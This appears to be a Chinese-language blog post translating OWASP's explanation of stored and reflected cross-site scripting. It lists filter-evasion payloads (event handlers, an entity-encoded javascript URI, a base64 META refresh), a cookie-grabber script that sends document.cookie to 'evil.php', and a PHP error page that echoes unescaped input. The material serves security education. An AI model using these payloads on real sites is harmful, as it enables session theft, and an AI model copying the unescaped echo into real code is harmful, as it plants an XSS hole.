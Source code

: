 ```yaml
---
layout: post
title: "[WEB]Cross-site_Scripting_(XSS)"
date: 2018-12-27 08:18:02 +0800
categories: [security,web]
tags: [security,web]
---
```


跨站點腳本（XSS）攻擊發生在：

數據通過不受信任的來源進入Web應用程序，最常見的是Web請求。<br />
數據包含在動態內容中，該動態內容在未經過惡意內容驗證的情況下發送給Web用戶。<br />
發送到Web瀏覽器的惡意內容通常採用JavaScript段的形式，但也可能包括HTML，Flash或瀏覽器可能執行的任何其他類型的程式碼。<br />
基於XSS的各種攻擊幾乎是無限的，但它們通常包括向攻擊者傳輸私有數據（如cookie或其他會話信息），將受害者重定向到攻擊者控制的Web內容，或者在用戶的計算機上執行其他惡意操作在易受攻擊的網站的幌子下。<br />


### 儲存型XSS攻擊
儲存攻擊是指注入的腳本永久儲存在目標服務器上的攻擊，例如在數據庫，消息論壇，訪問者日誌，註釋字段等中。受害者在請求儲存時從服務器檢索惡意腳本。信息。儲存的XSS有時也稱為持久性或類型I XSS。

### 反射型XSS攻擊
反射攻擊是指注入的腳本從Web服務器反射出來的攻擊，例如錯誤消息，搜索結果或包含作為請求的一部分發送到服務器的部分或全部輸入的任何其他響應。反射的攻擊通過其他途徑傳遞給受害者，例如在電子郵件中或在其他一些網站上。當用戶被欺騙點擊惡意鏈接，提交特製表單，甚至只是瀏覽惡意網站時，注入的程式碼會傳播到易受攻擊的網站，這會將攻擊反映回用戶的瀏覽器。然後瀏覽器執行程式碼，因為它來自“可信”服務器。反射的XSS有時也稱為非持久性或II型XSS。


XSS在屬性中使用腳本
可以在不使用`<script> </script>`標記的情況下進行XSS攻擊。其他標籤將完全相同，例如：
```html
<body onload=alert('test1')>
```

或其他屬性，如：onmouseover，onerror。

#### onmouseover

```html
<b onmouseover=alert('Wufff!')>click me!</b>
```

#### onerror

```html
<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>
```

---

### XSS使用腳本通過編碼的URI方案

如果我們需要隱藏Web應用程序過濾器，我們可能會嘗試對字符串字符進行編碼，例如： e.g.: a=&#X41 (UTF-8)並在IMG標記中使用它：

```html
<IMG SRC=j&#X41vascript:alert('test2')>
```

### XSS using code encoding
我們可以在base64中對腳本進行編碼並將其放在META標記中。 這樣我們完全擺脫了alert（）。 有關此方法的更多信息，請參閱[RFC 2397](https://tools.ietf.org/html/rfc2397)

```html
<META HTTP-EQUIV="refresh"
CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg">
```

---

## Examples

### Attack Examples
### Example 1: Cookie Grabber

如果應用程序未驗證輸入數據，則攻擊者可以輕鬆地從經過身份驗證的用戶竊取cookie。 攻擊者所要做的就是將以下程式碼放在任何發布的輸入中（即：留言板，私人消息，用戶配置文件）：

```javascript
<SCRIPT type="text/javascript">
var adr = '../evil.php?cakemonster=' + escape(document.cookie);
</SCRIPT>
```

上面的程式碼將傳遞cookie的轉義內容（根據RFC內容必須在通過HTTP協議使用GET方法發送之前將其轉義）到“cakemonster”變量中的evil.php腳本。 然後攻擊者檢查他的evil.php腳本的結果（cookie抓取器腳本通常會將cookie寫入文件）並使用它。

### 錯誤頁面示例
假設我們有一個錯誤頁面，它處理對非現有頁面的請求，這是一個經典的404錯誤頁面。 我們可以使用下面的程式碼作為示例來通知用戶缺少哪個特定頁面：

```php
<html>
<body>

<? php
print "Not found: " . urldecode($_SERVER["REQUEST_URI"]);
?>

</body>
</html>
```

讓我們看看它是如何工作的：

```html
http://testsite.test/file_which_not_exist
```
作為回應我們得到：
```html
Not found: /file_which_not_exist
```
現在我們將嘗試強制錯誤頁面包含我們的程式碼：

```html
http://testsite.test/<script>alert("TEST");</script>
```
結果是：
```html
Not found: / (but with JavaScript code <script>alert("TEST");</script>)
```
我們已經成功注入了程式碼，我們的XSS！ 這是什麼意思？ 例如，我們可能會利用此漏洞試圖竊取用戶的會話cookie。

資料來源
[https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))